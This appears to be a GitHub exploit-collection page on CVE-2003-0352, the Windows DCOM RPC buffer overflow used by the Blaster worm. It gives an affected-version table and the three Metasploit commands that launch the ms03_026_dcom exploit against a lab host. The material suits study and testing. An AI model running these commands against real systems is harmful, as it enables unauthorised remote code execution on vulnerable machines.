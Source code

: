 ###  CVE-2003-0352

#### Describe

Buffer overflow in a certain DCOM interface for RPC in Microsoft Windows NT 4.0, 2000, XP, and Server 2003 allows remote attackers to execute arbitrary code via a malformed message, as exploited by the Blaster/MSblast/LovSAN and Nachi/Welchia worms.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         |        |                    |
| Windows 2000        |                  |         | SP1    |                    |
| Windows 2000        |                  |         | SP2    |                    |
| Windows 2000        |                  |         | SP3    |                    |
| Windows 2000        |                  |         | SP4    | &#10004; |
| Windows Server 2003 |                  | R2      |        |                    |
| Windows Nt          |                  |         | SP1    |                    |
| Windows Nt          |                  | 4.0     | SP2    |                    |
| Windows Nt          |                  | 4.0     | SP3    |                    |
| Windows Nt          |                  | 4.0     | SP4    |                    |
| Windows Nt          |                  | 4.0     | SP5    |                    |
| Windows Nt          |                  | 4.0     | Sp6a   |                    |
| Windows Nt          |                  | 4.0     | SP6    |                    |
| Windows Xp          |                  |         | SP1    |                    |
| Windows Xp          |                  |         | Gold   |                    |

#### Utilization

Test system Windows 2000 SP4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2003-0352_win2000_x86_msf.png)

View system information

![CVE-2003-0352_win2000_x86_msf2](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2003-0352_win2000_x86_msf2.png)

